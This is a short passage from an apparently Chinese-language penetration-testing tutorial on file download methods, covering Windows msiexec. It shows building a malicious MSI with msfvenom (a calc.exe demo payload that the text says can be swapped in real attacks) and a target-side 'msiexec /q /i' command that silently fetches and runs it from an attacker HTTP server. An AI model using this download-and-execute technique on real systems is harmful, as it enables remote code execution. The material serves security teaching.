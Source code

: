 


![ftp](Windows&Linux常见文件下载方法/ftp.png)



#### ***msiexec工具（Windows）：***

##### msiexec是windows自带的cmd工具，支持远程下载功能，攻击者可以将msi文件下载到服务器并执行，下面通过一个实例做演示说明，首先我们通过msfvenom来构造一个恶意的msi程序(这里以弹计算器为例，在实战中可以根据需要进行修改)，并启动一个简易HTTP服务：

##### Kali下生成一个.msi可执行文件

```
msfvenom -p windows/exec CMD='cmd.exe /c calc.exe' -f msi >eval.msi
```

##### 然后目标机上执行msiexec命令：

```
msiexec /q /i http://192.168.10.11/eval.msi
```
